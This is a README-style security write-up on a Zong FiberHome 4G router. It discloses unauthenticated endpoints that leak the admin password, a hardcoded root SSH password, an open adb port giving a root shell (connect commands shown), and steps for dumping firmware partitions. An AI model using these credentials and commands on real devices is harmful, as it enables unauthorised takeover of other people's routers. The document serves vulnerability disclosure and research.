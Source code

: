 
# Zong FiberHome 4G Device

## Endpoints

Base URL: `/xml_action.cgi?method=get&module=duster&file=[name]`
known file names are:
 - admin
 - app_fun_support_list
 - battery_charge
 - custom_fw
 - detailed_log
 - dns
 - download_local_upgrade
 - lan
 - lock_cell_clear
 - message
 - message_drafts
 - message_outbox
 - message_set
 - message_state
 - message_state
 - net_advace_set
 - ntp_server
 - pin_puk
 - reset
 - restore_defaults
 - shutdown
 - status1
 - time_setting
 - traffic_excess_set
 - uapxb_wlan_basic_settings
 - uapxb_wlan_security_settings
 - upgrade_info
 - ussd_business
 - wan
 - wan_choose_net
 - wan_ip
 - wlan_auto_setting

 ## Vulnerabilities and Exploits
 Although the device use a wierd authentication method, it is nothing more than a gimmick used 
 by the UI code to give an illusion of authentication.
 All the endpoints are accessible directly without authentication and the best part of it all is you can
 use the [`admin`](http://192.168.8.1/xml_action.cgi?method=get&module=duster&file=admin) endpoint to get the username and password for the router.

The output of the `admin` endpoint is something like
```
<?xml version="1.0" encoding="US-ASCII"?>
<RGW>
	<management>
		<router_username>admin</router_username>
		<router_password>admin</router_password>
		<web_wlan_enable/>
		<httpd_port/>
		<syslogd_enable/>
		<web_wan_enable/>
		<syslogd_rem_ip/>
		<turbo_mode/>
        <customer/>
	</management>
</RGW>
```

The vulerability explained above is [well know and quite old](https://github.com/OsamaMahmood/Zong-router-exploit) but wait, There's more! to my knowledge(not sure though) the `Fiber Home` version of the `Zong` devices are unlocked by default but if yours is not, you can use a simple trick to get super user access and unlock
the device direcltly from the `Admin Panel` all you have to do is login to your router and change the default **username** from `admin` to `root` and voila you can see a new tab named `Advance` in `Settings` which provides options to unlock the device, As shown below

![Advance Settings](/zong_adv_settings.PNG?raw=true "Advance Settings")

## Analysis
It gets more interesting once you do a portscan of the device. The portscan shows the following ports to be open
 - 22 - SSH
 - 53 - DNS
 - 80 - HTTP (Admin Panel)
 - 3020 - Unknown
 - 3021 - Unknown
 - 5555 - Unknown

### Port 22
You can ssh into the device as `root` using password `oelinux123`

### Port 53 and 80
These ports are standard `DNS` and `HTTP` ports

### Port 3020
Port 3020 is interesting once you connect to it it immediatly send the banner `ms_version:1` and then appears to send/receive nothing but if you keep connected it starts sending packets with `JSON` payloads "periodically" which appears to be 4-byte length prefixed, see the sample payloads below

```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength": 2
}
```
```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength_v1": [
		{
			"cdma_dbm": 0,
			"evdo_dbm": -125,
			"gsm_signal_strength": 0,
			"lte_rsrp": -112,
			"operator_type": 2,
			"tds_signal_strength": 0,
			"wcdma_signal_strength": 0
		}
	]
}
```

### Port 3021
This port lets you connect to it and keeps the connection open as long as you don't send anything but as soon as you send something it immediately disconnects, possibly expects somekind of pattern IMO(these kinds of ports were found on other routers too)

### Port 5555
This port runs an unauthenticated `adb daemon` so you can easily connect to it using `adb` and get shell access as follow
```
adb connect 192.168.8.1:5555
adb shell
```
you will get access as root user so you can pretty much do anything you want.

### Dumping Image
You can list the flash partitions using:
```
cat /proc/mtd

Output:

dev:    size   erasesize  name
mtd0: 00140000 00020000 "sbl"
mtd1: 00140000 00020000 "mibib"
mtd2: 00b00000 00020000 "efs2"
mtd3: 00360000 00020000 "sdi"
mtd4: 00360000 00020000 "tz"
mtd5: 000c0000 00020000 "mba"
mtd6: 00360000 00020000 "rpm"
mtd7: 031e0000 00020000 "qdsp"
mtd8: 000e0000 00020000 "appsbl"
mtd9: 00800000 00020000 "apps"
mtd10: 00040000 00020000 "scrub"
mtd11: 04a80000 00020000 "cache"
mtd12: 00160000 00020000 "misc"
mtd13: 00560000 00020000 "cdrom"
mtd14: 002e0000 00020000 "logo"
mtd15: 00800000 00020000 "recovery"
mtd16: 00100000 00020000 "fota"
mtd17: 01080000 00020000 "recoveryfs"
mtd18: 01080000 00020000 "system"
mtd19: 12e80000 00020000 "userdata"
```
you can just `cat` the device and pipe the data to a file e.g. `ssh root@192.168.8.1 "cat /dev/mtd18" > system.img` to get the system image

### Filesystem
Its just a linux filesystem, fun stuff can be found in `/usr/mifi/`. Some of the configurations are also stored in `sqlite 3` databases and can be found in `/usr/data/`